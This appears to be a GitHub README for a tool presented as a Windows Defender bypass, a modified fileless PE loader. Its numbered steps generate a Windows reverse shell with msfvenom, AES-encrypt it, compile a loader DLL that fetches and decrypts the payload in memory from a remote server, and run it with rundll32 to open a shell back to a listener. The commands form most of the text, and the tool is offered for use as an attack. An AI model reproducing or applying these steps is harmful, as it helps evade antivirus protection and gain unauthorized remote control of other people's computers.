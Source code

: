 # Windows-Defender-Bypass

Tested on 31-07-2023.  [Defender may detect it at the time of you using this. Feel free to do any modifications.]
This is a modified version of @TheD1rkMtr's FilelessPELoader program. The link to the original repo is https://github.com/TheD1rkMtr/FilelessPELoader/. It works by loading Remote AES Encrypted PE in memory, decrypts it and run it.

STEPS TO REPRODUCE:
1. Clone the repository.
2. Edit the IP , port in FilelessPELoader.cpp script.
3. Use the aes.py script to create a encrypted bin files.
   In the POC, I generated the reverse shell payload using msfvenom and encrypted it using aes.py. The synta for the same is
   ```msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=PORT -f exe -o shell.exe```
   ```python3 aes.py shell.exe```
   Successfull execution of the above command will result two files named cipher.bin and key.bin.
4. Use the following command to compile FilelessPELoader.cpp to a dll.
   ```x86_64-w64-mingw32-g++ FilelessPELoader.cpp -l winhttp -shared --static -o a.dll```
5.Once dll is created, start the web server and your listener.
6. Transfer the dll to a windows machine.
7. Open command prompt and run the following command.
   ```rundll32 a.dll, DllRegistryServer```
8. After a second, You will see the connection in your terminal where you started your listener.
